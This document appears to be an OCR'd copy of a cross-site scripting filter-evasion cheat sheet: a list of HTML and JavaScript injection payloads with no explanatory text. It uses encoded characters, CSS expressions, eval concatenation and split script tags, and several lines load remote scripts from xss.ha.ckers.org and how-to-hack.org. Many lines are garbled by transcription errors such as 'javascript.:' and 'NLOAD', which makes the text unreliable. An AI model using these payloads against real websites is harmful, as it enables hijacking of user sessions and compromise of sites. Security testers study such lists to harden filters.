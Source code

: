 ```
<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>
<IMG SRC="jav&#x09;ascript.:alert('XSS');">
<IMG SRC="jav&#x0A;ascript.:alert('XSS');">
<IMG SRC="jav&#x0D;ascript.:alert('XSS');">
"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out
<IMG SRC=" javascript.:alert('XSS');">
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
<BODY BACKGROUND="javascript.:alert('XSS')">
<BODY ONLOAD=alert('XSS')>
<IMG DYNSRC="javascript.:alert('XSS')">
<IMG LOWSRC="javascript.:alert('XSS')">
<BGSOUND SRC="javascript.:alert('XSS');">
<br size="&{alert('XSS')}">
<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>
<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">
<IMG SRC='vbscript.:msgbox("XSS")'>
<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">
<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>
<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>
<TABLE BACKGROUND="javascript.:alert('XSS')">
<DIV STYLE="background-image: url(javascript.:alert('XSS'))">
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">
<DIV STYLE="width: expression(alert('XSS'));">
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>
<BASE HREF="javascript.:alert('XSS');//">
getURL("javascript.:alert('XSS')")
a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);
<XML SRC="javascript.:alert('XSS');">
"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
<IMG SRC="javascript.:alert('XSS')"
<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>
<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
